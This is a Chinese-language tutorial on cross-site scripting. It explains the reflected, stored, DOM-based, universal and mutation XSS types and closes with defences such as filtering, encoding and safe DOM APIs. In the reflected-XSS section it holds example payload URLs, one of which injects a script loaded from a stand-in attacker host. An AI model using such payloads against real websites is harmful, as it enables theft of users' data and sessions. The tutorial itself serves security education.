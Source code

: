 ```yaml
---
date: 2024-04-03 18:02
modified: 2024-07-10 09:15
---
```


# XSS 攻击

XSS（Cross Site Scripting，跨站脚本攻击），是指攻击者利用网页站点的漏洞，通过巧妙的方法注入恶意指令代码到网页（如：表单提交，URL 注入），当其他正常用户浏览页面，而页面中刚好出现攻击者的恶意脚本时，脚本被执行，从而使得页面遭到破坏，或者用户信息被窃取。

最常见的几种分类：反射型（非持久型）XSS、存储型（持久型）XSS、DOM 型 XSS、通用型 XSS、突变型 XSS。

## 反射型（非持久型）XSS

反射型 XSS 漏洞常见于通过 URL 传递参数的功能，如网站搜索，跳转等。由于需要用户主动打开或点击恶意的 URL 才能生效，攻击者往往会结合多种手段诱导用户点击。比如下面的 URL：

```text
http://x.x.x.x:8080/dosomething?message="<script src="http://www.hacktest.com:8002/xss/hacker.js"></script>"

http://localhost/test.php?param=<script>alert(/xss/)</script>
```

POST 的内容也可以触发反射型 XSS，只不过它的触发条件比较苛刻（构建表单提交页面，并引导用户点击），所以非常少见。

反射型 XSS 的攻击步骤：

1. 攻击者构造出特殊的 URL，其中包含恶意代码
2. 用户打开有恶意代码的 URL 时，网站服务器将恶意代码从 URL 取出，拼接在 HTML 返回给浏览器
3. 用户浏览器接收到响应后解析执行，混在其中的恶意代码也会被执行
4. 恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户行为，调用目标网站接口执行攻击者指定的操作

反射型 XSS 受到 XSS Auditor（Chrome 内置的 XSS 保护，能够检测到 URL 上的 XSS 攻击，将网页拦截掉）、NoScript 等防御手段的影响较大，所以它的危害性较存储型要小。

## 存储型（持久型）XSS

恶意脚本永久存储在目标服务器上。当浏览器请求数据时，脚本从服务器传回并执行，影响范围比反射型和 DOM 型 XSS 更大。存储型 XSS 攻击的原因仍然是没有做好数据过滤：前端提交数据至服务器端时，没有做好过滤；服务端在按受到数据时，在存储之前，没有做过滤；前端从服务器端请求到数据，没有过滤输出。

这种攻击常见于带有用户保存数据的网站功能，如论坛发帖，商品评论，用户私信等。如骇客写下一篇包含有恶意 JavaScript 代码的博客文章，文章发表后，所有访问该博客的用户，都会在他们的浏览器中执行这段恶意 JS 代码。

存储型 XSS 的攻击步骤：

1. 攻击者将恶意代码提交到目标网站的数据库中
2. 用户打开目标网站时，网站服务端将恶意代码从数据库中取出，拼接在 HTML 中返回给浏览器
3. 用户浏览器接收到响应后解析执行，混在其中的恶意代码也被执行
4. 恶意代码窃取用户数据并发送到攻击者的网站，或冒充用户行为，凋用目标网站接口执行攻击者指定的操作

不论是反射型攻击还是存储型，攻击者总需要找到两个要点，即“输入点”与“输出点”，也只有这两者都满足，XSS 攻击才会生效：

- “输入点”用于向 Web 页面注入所需的攻击代码
- “输出点”就是攻击代码被执行的地方

## DOM 型 XSS

DOM 型 XSS 攻击，实际上就是前端 JS 代码不够严谨，把不可信的内容插入到了页面。DOM 型 XSS 攻击中，取出和执行恶意代码由浏览器端完成，属于前端 JS 自身的安全漏洞。

DOM 型 XSS 是基于 DOM 文档对象模型的。对于浏览器来说，DOM 文档就是一份 XML 文档，当有了这个标准的技术之后，通过 JavaScript 就可以轻松的访问 DOM。当确认客户端代码中有 DOM 型 XSS 漏洞时，诱使（钓鱼）一名用户访问自己构造的 URL，利用步骤和反射型很类似，但是唯一的区别就是，构造的 URL 参数不用发送到服务器端，可以达到绕过 WAF、躲避服务端的检测效果。

DOM 型 XSS 攻击步骤：

1. 攻击者构造出特殊数据，其中包含恶意代码
2. 用户浏览器执行了恶意代码
3. 恶意窃取用户数据并发送到攻击者的网站，或冒充用户行为，调用目标网站接口执行攻击者指定的操作

## 通用型 XSS

通用型 XSS，也叫做 UXSS 或者 Universal XSS，全称 Universal Cross-Site Scripting。

上面三种 XSS 攻击的是因为客户端或服务端的代码开发不严谨等问题而存在漏洞的目标网站或者应用程序。这些攻击的先决条件是访问页面存在漏洞，但是 UXSS 是一种利用浏览器或者浏览器扩展漏洞来制造产生 XSS 的条件并执行代码的一种攻击类型。

不仅是浏览器本身的漏洞，现在主流浏览器都支持扩展程序的安装，而众多的浏览器扩展程序可能导致带来更多的漏洞和安全问题。因为 UXSS 攻击不需要网站页面本身存在漏洞，同时可能访问其他安全无漏洞页面，使得 UXSS 成为 XSS 里危险和最具破坏性的攻击类型之一。

漏洞案例：

- [IE6 或火狐浏览器扩展程序 Adobe Acrobat 的漏洞](https://blog.jeremiahgrossman.com/2007/01/what-you-need-to-know-about-uxss-in.html)
- [Flash Player UXSS 漏洞 – CVE-2011-2107](https://helpx.adobe.com/security/security-bulletin.html)
- [安卓版 Chrome 浏览器漏洞](https://issues.chromium.org/issues/40064753)

## 突变型 XSS

突变型 XSS，也叫做 mXSS 或，全称 Mutation-based Cross-Site-Scripting。（mutation，突变，来自遗传学的一个单词）

如果用户所提供的富文本内容通过 JS 代码进入 `innerHTML` 属性后，一些意外的变化会使得这个认定不再成立：浏览器的渲染引擎会将本来没有任何危害的 HTML 代码渲染成具有潜在危险的 XSS 攻击代码。

由于 HTML 内容进入 `innerHTML` 后发生意外变化，将会导致潜在的 mXSS 攻击。

常见 mXSS 种类：

- 反引号打破属性边界导致的 mXSS：该类型是最早被发现并利用的一类 mXSS，于 2007 年被提出，随后被有效的修复
- 未知元素中的 `xmlns` 属性所导致的 mXSS：一些浏览器不支持 HTML5 的标记，例如 IE8，会将 `article`、`aside`、`menu` 等当作是未知的 HTML 标签
- CSS 中反斜线转义导致的 mXSS：在 CSS 中，允许用 `\` 来对字符进行转义，例如：`property: 'v\61 lue'` 表示 `property: 'value'`，其中 `61` 是字母 `a` 的 ascii 码（十六进制）。`\` 后也可以接 unicode，例如：`\20AC` 表示 `€`。正常情况下，这种转义不会有问题。但是碰上 `innerHTML` 后，一些奇妙的事情就会发生
- CSS 中双引号实体或转义导致的 mXSS：`&quot;`、`&#x22;`、`&#34;` 等双引号的表示形式均可导致这类问题
- CSS 属性名中的转义所导致的 mXSS
- 非 HTML 文档中的实体突变
- HTML 文档中的非 HTML 上下文的实体突变

# 防御方式

XSS 攻击有两大要素：

1. 攻击者提交恶意代码
2. 浏览器执行恶意代码

##  对用户提交的内容进行过滤或编码

服务端和客户端对用户提交的内容进行过滤或编码

- 过滤：去掉一些危险的标签，去掉一些危险的属性
- 编码：对危险的标签进行 HTML 实体编码

一般需要前端（作为 HTML 插到页面前、作为代码执行前、提交给后端前）和后端（存入数据库前）都做过滤或编码：

- 前端：预防 DOM 型 XSS 攻击；预防将恶意代码提交给服务器；预防后端返回包含恶意代码的数据
- 后端：预防攻击者绕过前端过滤，直接构造请求，提交恶意代码

## 预防 DOM 型 XSS 攻击

DOM 型 XSS 攻击，实际上就是网站前端 JavaScript 代码本身不够严谨，把不可信的数据当作代码执行了。

在使用 `innerHTML`、`outerHTML`、`document.write()`、Vue 的 `v-html`、React 的 `dangerouslySetInnerHTML` 时要特别小心，不要把不可信的数据作为 HTML 插到页面上，而应尽量使用 `textContent`、`setAttribute()` 等。

DOM 中的内联事件监听器，如 `location`、`onclick`、`onerror`、`onload` 等， 标签的 `href` 属性，JavaScript 的 `eval()`、`setTimeout()`、`setInterval()` 等，都能把字符串作为代码运行。如果不可信的数据拼接到字符串中传递给这些 API，很容易产生安全隐患，请务必避免。
